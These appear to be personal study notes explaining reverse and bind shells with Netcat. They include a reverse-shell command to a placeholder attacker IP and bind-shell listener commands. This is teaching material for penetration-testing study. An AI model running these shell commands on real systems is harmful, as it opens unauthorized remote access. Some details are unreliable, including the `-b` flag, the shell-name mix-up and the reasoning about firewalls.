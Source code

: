 
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](cybersecurity/tools/exploitation/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to send execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag (the shell is executed on the target device).
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444
# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)